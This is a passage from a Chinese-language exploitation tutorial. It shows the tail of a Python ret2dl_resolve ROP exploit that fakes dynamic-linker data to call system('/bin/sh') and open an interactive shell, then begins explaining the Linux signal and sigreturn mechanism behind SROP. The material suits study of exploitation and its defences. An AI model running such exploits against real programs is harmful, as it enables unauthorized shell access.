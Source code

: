 ```python
  ## used to call dl_Resolve()
  buf += rop.dl_resolve_call(bss_base + 20, bss_base)
  r.send(buf)

  buf = rop.string('/bin/sh')
  buf += rop.fill(20, buf)
  ## used to make faking data, such relocation, Symbol, Str
  buf += rop.dl_resolve_data(bss_base + 20, 'system')
  buf += rop.fill(100, buf)
  r.send(buf)
  r.interactive()
```

![Alt](img/wiki-AdvancedRop11.png)

## SROP

### signal 机制

1. 内核向某个进程发送 signal 机制，该进程会被暂时挂起，进入内核态。

2. 内核会为该进程保存相应的上下文，主要是将所有寄存器压入栈中，以及压入 signal 信息，以及指向 sigreturn 的系统调用地址。此时栈的结构如下图所示，我们称 ucontext 以及 siginfo 这一段为 Signal Frame。需要注意的是，这一部分是在用户进程的地址空间的。之后会跳转到注册过的 signal handler 中处理相应的 signal。因此，当 signal handler 执行完之后，就会执行 sigreturn 代码。

3. signal handler 返回后，内核为执行 sigreturn 系统调用，为该进程恢复之前保存的上下文，其中包括将所有压入的寄存器，重新 pop 回对应的寄存器，最后恢复进程的执行。其中，32 位的 sigreturn 的调用号为 77(0x4d)，64 位的系统调用号为 15(0xf)。
